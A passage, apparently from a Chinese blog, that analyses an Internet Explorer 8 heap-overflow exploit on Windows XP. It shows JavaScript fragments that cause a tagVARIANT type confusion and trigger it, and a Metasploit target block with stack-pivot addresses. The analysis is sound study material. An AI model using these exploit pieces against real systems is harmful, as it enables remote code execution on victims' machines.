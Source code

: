 可以修改越界处,将其数值加1,VUPEN的牛逼之处就是这一字节修改,巧妙的利用了tagVARIANT结构体的类型混淆从而使得代码执行

注意selob有64个元素,并且刚好第二个元素是string类型,还记得我们CImplAry::EnsureSizeWorker这个函数分配的是64*0x10,这个0x10应该是个tagVARIANT结构体,第一个字节指明了类型

```js
selob.w0 = alert
selob.w1 = unescape("%u1be4%u0c0c")
```

w0对应的类型是VT_DISPATCH(9), w1对应的类型是VT_BSTR(8),一字节修改之后,w1被混淆成了VT_DISPATCH,计算下我们实际要修改的位置就是 0x10+1,再加上前面两块内存距离是0x408,那么我们实际的偏移量是0x419,也就是说

00 9F B2 73 这个音轨数据的B2和9F中的F是这样得出来的（F<<7+B2)>>1 = 0x419,

unescape("%u1be4%u0c0c")本来是VT_BSTR代表的数据,现在被当成是虚表指针,那么触发的时机正是CAttrValue::GetIntoVariant的函数,这里面你可以看到类型混淆后的执行,那么CAttrValue::GetIntoVariant是由脚本的什么函数执行呢

```js
while (k > 0) {
			if (typeof(clones[k].w1) == "string") {
			} else {
				clones[k].w1('come on!');
			}
			k = k - 2;
		}
```

clones[k].w1('come on!') 这个触发了CAttrValue::GetIntoVariant



注意msf的样本0x76C9B4C2这个地址在我的机器上地址是不对的,我随便找了个地址,将里面的汇编改成,而且这段shellcode还需要JRE的msvcr71.dll. 所以你还要记得安装下JRE

```asm
xchg ecx,esp
ret 8
```



```ruby
'IE 8 on Windows XP SP3',
						{
							# xchg ecx,esp
							# or byte ptr [eax],al
							# add byte ptr [edi+5Eh],bl
							# ret 8
							# From IMAGEHLP
							'Rop' => true,
							'StackPivot' => 0x76C9B4C2,
							'DispatchDst' => 0x0c0c1be4
						}
```



可以看到堆漏洞的利用相比于前面的栈利用来说要复杂了,就这个漏洞来说,产生问题的代码在winmm中,但是我们利用的代码是mshtml中,我们还要知道对应的js代码执行的时候对应的dll中的执行流程,另外我们也没有去分析堆喷,这些都需要后面的实践,堆喷是个成熟的技术,所以后面会专门的就堆喷进行分析,而不是在每个样本中就堆喷进行说明,看了这个利用,以后还要加强对js的一些学习,以及mshtml的一些执行逻辑
